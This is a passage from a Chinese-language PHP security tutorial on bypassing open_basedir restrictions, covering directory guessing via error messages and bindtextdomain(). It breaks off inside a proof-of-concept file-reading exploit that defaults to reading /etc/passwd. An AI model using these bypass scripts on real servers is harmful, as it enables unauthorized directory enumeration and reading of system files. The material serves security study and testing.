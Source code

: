 ```php
    global $file;
    if (stripos($errstr, 'Invalid font filename') === FALSE) {
        printf("%s<br/>", $file);
    }
}
?>
```

这个方法报错的时候并不会把真正的路径爆出来，这也是其与realpath的最大不同之处，用这种方法只能一位一位猜解列目录

而且和上面的两种方法类似，由于都使用了Windows的通配符，所以这些POC都只能在Windows下使用，Linux下只能暴力猜解。

#### bindtextdomain()绕过

bindtextdomain是php下绑定domain到某个目录的函数。用法如下:

```
bindtextdomain ( string $domain , string $directory ) : string
```

`bindtextdomain`是php下绑定domain到某个目录的函数。具体这个domain是什么我也没具体用过，只是在一些l10n应用中可能用到的方法（相关函数textdomain、gettext、setlocale，说明：http://php.net/manual/en/function.gettext.php）

所以第一个参数随便传都行，主要出在第二个参数上，当第二个参数即目录存在时，会返回目录的路径，当目录不存在时，会返回False。故有脚本如下:

```php
<?php
printf('<b>open_basedir: %s</b><br />', ini_get('open_basedir'));
$re = bindtextdomain('xxx', $_GET['dir']);
var_dump($re);
?>
```

我们也可以通过返回值的不同来猜解、列举某个目录。

但很大的鸡肋点在，windows下默认是没有这个函数的，而在linux下不能使用通配符进行目录的猜解，所以显得很鸡肋。

当然，在万无退路的时候进行暴力猜解目录，也不失为一个还算行的方法。

### EXP

[php5全版本绕过open_basedir读文件脚本 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/other/bypass-open-basedir-readfile.html)

```php
<?php
/*
* by phithon
* From https://www.leavesongs.com
* detail: http://cxsecurity.com/issue/WLB-2009110068
*/
header('content-type: text/plain');
error_reporting(-1);
ini_set('display_errors', TRUE);
printf("open_basedir: %s\nphp_version: %s\n", ini_get('open_basedir'), phpversion());
printf("disable_functions: %s\n", ini_get('disable_functions'));
$file = str_replace('\\', '/', isset($_REQUEST['file']) ? $_REQUEST['file'] : '/etc/passwd');
$relat_file = getRelativePath(__FILE__, $file);
$paths = explode('/', $file);
$name = mt_rand() % 999;
$exp = getRandStr();
mkdir($name);
chdir($name);
for($i = 1 ; $i < count($paths) - 1 ; $i++){
    mkdir($paths[$i]);
    chdir($paths[$i]);
}
mkdir($paths[$i]);
for ($i -= 1; $i > 0; $i--) { 
```